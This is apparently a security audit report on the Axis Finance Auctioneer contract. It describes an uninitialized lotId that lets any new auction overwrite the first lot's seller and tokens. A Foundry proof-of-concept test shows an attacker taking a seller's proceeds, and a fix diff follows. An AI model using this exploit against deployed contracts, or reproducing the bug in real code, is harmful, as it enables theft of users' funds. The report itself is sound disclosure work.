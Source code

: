 Electric Cornflower Terrier

high

# `Auctioneer.auction()` always overwrites first auction's parameters

## Summary

`Auctioneer.auction()` retrieves the lot's routing information from storage as `lotRouting[lotId]`.
`lotId` at this point is unassigned, and always defaults to `0`, i.e., to the first auction's routing parameters.

## Vulnerability Detail

`Auctioneer.auction()` retrieves the lot's routing information from storage, using the uninitialized return parameter `lotId` as index. Thus, any call to `auction()` overwrites the first lot's `seller`, `baseToken` and `quoteToken`.

## Impact

1. Loss of funds attributed to the first auction. An attacker can take take over as the first lot's seller, and manipulate its base and quote tokens to point to other ERC20s than intended.
2. All subsequent auctions fail, because their `auctionReference` module reference is set to 0x00.

### Proof of Concept for (1)

In the PoC below, we demonstrate how `_EVE` takes possession of quote tokens that belong to `_SELLER`:

<details>

Copy the code below into a fresh file `moonraker/test/AuctionHouse/poc.t.sol` and run with

```sh
$ forge test --mt test_poc
```

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

import {AuctionHouseTest} from "test/AuctionHouse/AuctionHouseTest.sol";
import {Auctioneer} from "src/bases/Auctioneer.sol";
import {Auction} from "src/modules/Auction.sol";
import {Router} from "src/AuctionHouse.sol";

contract PoC is AuctionHouseTest {
    function test_poc() external whenAuctionTypeIsBatch whenBatchAuctionModuleIsInstalled {
        uint96 _BID_AMOUNT = 5e18;

        // Addresses & initial funds
        address _EVE = address(0x99);
        _baseToken.mint(_SELLER, _LOT_CAPACITY);
        _baseToken.mint(_EVE, _BID_AMOUNT);
        _quoteToken.mint(_bidder, _BID_AMOUNT);

        // _SELLER creates first auction
        vm.startPrank(_SELLER);
        _baseToken.approve(address(_auctionHouse), _LOT_CAPACITY);
        _lotId = _auctionHouse.auction(_routingParams, _auctionParams, _INFO_HASH);
        vm.stopPrank();

        // Eve creates second auction
        vm.startPrank(_EVE);
        _baseToken.approve(address(_auctionHouse), _BID_AMOUNT);
        _auctionParams.capacity = _BID_AMOUNT;
        _lotId = _auctionHouse.auction(_routingParams, _auctionParams, _INFO_HASH);
        vm.stopPrank();

        // Eve's lot is now seller 0
        Auctioneer.Routing memory routing = _getLotRouting(1);
        assertEq(routing.seller, address(0));

        // Seller's lot now belongs to Eve
        routing = _getLotRouting(0);
        assertEq(routing.seller, _EVE);

        // Open the lots
        vm.warp(_startTime);

        // _bidder bids
        vm.prank(_bidder);
        _quoteToken.approve(address(_auctionHouse), _BID_AMOUNT);
        Router.BidParams memory bidParams = Router.BidParams({
            lotId: 0, referrer: _REFERRER, amount: _BID_AMOUNT,
            auctionData: "", permit2Data: _permit2Data
        });

        vm.prank(_bidder);
        uint64 bidId = _auctionHouse.bid(bidParams, _allowlistProof);
        _bidIds.push(bidId);

        // Conclude the lot
        vm.warp(_startTime + _duration + 1);
        // ... and settle
        _batchAuctionModule.setLotSettlement(0, Auction.Settlement({
            totalIn: _BID_AMOUNT, totalOut: _BID_AMOUNT,
            pfBidder: address(0), pfReferrer: address(0),
            pfRefund: 0, pfPayout: 0, auctionOutput: ""
        }));
        _auctionHouse.settle(0);

        // Seller claims proceeds, gets nothing
        vm.prank(_SELLER);
        _auctionHouse.claimProceeds(0, bytes(""));
        assertEq(_quoteToken.balanceOf(address(_SELLER)), 0);
        assertEq(_baseToken.balanceOf(address(_SELLER)), 0);

        // Eve receives 5e18 of the quote token
        assertEq(_quoteToken.balanceOf(address(_EVE)), 5e18);
    }
}
```

</details>

## Code Snippet

https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/bases/Auctioneer.sol#L160-L174

## Tool used

Manual Review

## Recommendation

Assign `lotId` before retrieving routing information:

```diff
diff --git a/moonraker/src/bases/Auctioneer.sol b/moonraker/src/bases/Auctioneer.sol
index a77585b..c636752 100644
--- a/moonraker/src/bases/Auctioneer.sol
+++ b/moonraker/src/bases/Auctioneer.sol
@@ -171,6 +171,8 @@ abstract contract Auctioneer is WithModules, ReentrancyGuard {
             revert InvalidParams();
         }
 
+        // Increment lot count and get ID
+        lotId = lotCounter++;
         Routing storage routing = lotRouting[lotId];
 
         bool requiresPrefunding;
@@ -190,9 +192,6 @@ abstract contract Auctioneer is WithModules, ReentrancyGuard {
                     || baseTokenDecimals > 18 || quoteTokenDecimals < 6 || quoteTokenDecimals > 18
             ) revert InvalidParams();
 
-            // Increment lot count and get ID
-            lotId = lotCounter++;
-
             // Call module auction function to store implementation-specific data
             (lotCapacity) =
                 auctionModule.auction(lotId, params_, quoteTokenDecimals, baseTokenDecimals);
```
